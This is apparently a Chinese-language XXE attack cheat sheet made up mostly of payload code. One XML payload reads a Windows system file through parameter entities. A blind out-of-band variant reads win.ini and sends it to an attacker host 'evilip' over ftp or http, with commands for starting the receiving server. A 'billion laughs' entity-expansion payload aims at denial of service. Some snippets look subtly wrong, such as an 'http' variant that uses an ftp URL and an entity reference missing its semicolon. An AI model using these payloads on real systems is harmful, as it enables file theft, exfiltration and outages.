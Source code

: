```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [
        <!ENTITY % start "<![CDATA[">
        <!ENTITY % goodies SYSTEM "file:///c:/windows/system.ini">
        <!ENTITY % end "]]>">
        <!ENTITY % dtd SYSTEM "evil.dtd"> %dtd; ]>

<creds>&all;</creds>

<! --evil.dtd-->

<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
```
### 无回显
无回显，用http或ftp协议外带数据。但内部Entity中禁止引用参数实体，所以DTD中要把`%`转义成`&#37;`
```xml
<! --payload.xml-->

<!DOCTYPE root [<!ENTITY % remote SYSTEM "http://ip:port/evil.dtd">%remote;%int;%send;]>

<! --ftp下的evil.dtd-->

<!ENTITY % file SYSTEM "file:///C:\Windows\win.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://evilip:port/%file;'>">

<! --http下的evil.dtd-->

<!ENTITY % file SYSTEM "file:///C:\Windows\win.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://evilip:port/?p=%file;'>">
```
python起http或ftp服务
```
python3 -m http.server 8080
python3 -m pyftpdlib -p 8081
```

### ddos
```xml
<?xml version="1.0"?>
     <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     ]>
     <lolz>&lol6</lolz>
```
